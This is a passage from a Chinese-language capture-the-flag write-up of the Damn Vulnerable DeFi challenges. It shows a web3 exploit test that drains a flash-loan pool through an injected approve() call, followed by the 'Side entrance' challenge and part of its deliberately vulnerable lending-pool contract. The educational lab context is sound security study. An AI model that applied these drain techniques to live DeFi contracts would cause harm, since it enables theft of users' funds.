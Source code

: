 解决的思路也非常直接，利用 abi 编码 data 后，像贷款池调用 `flashLoan()` 租借 0 元，然后等待合约执行完成 `approve()` 函数，然后直接从 token 处取走相应的金额：

```
it('Exploit', async function () `{`
    const data = web3.eth.abi.encodeFunctionCall(`{`
        name: 'approve',
        type: 'function',
        inputs: [`{`
            type: 'address',
            name: 'spender'
        `}`,`{`
            type: 'uint256',
            name: 'amount'
        `}`]
    `}`, [attacker, TOKENS_IN_POOL.toString()]); 

    await this.pool.flashLoan(0, attacker, this.token.address, data);
    await this.token.transferFrom(this.pool.address, attacker, TOKENS_IN_POOL, `{` from: attacker `}`);
`}`);
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0151d7814b4111c5a7.png)



## Side entrance

> A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.
This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
You must steal all ETH from the lending pool.

本题考点同样是从贷款池中提走全部的 token，但不同于上题的直接提供 `call` 进行调用，本题限定了只能调用 receiver 的 `execute()` 函数：

```
interface IFlashLoanEtherReceiver `{`
    function execute() external payable;
`}`

contract SideEntranceLenderPool `{`
    using Address for address payable;

    mapping (address =&gt; uint256) private balances;

    function deposit() external payable `{`
        balances[msg.sender] += msg.value;
    `}`

    function withdraw() external `{`
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        msg.sender.sendValue(amountToWithdraw);
    `}`

    function flashLoan(uint256 amount) external `{`
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore &gt;= amount, "Not enough ETH in balance");

        IFlashLoanEtherReceiver(msg.sender).execute`{`value: amount`}`();

        require(address(this).balance &gt;= balanceBefore, "Flash loan hasn't been paid back");        
```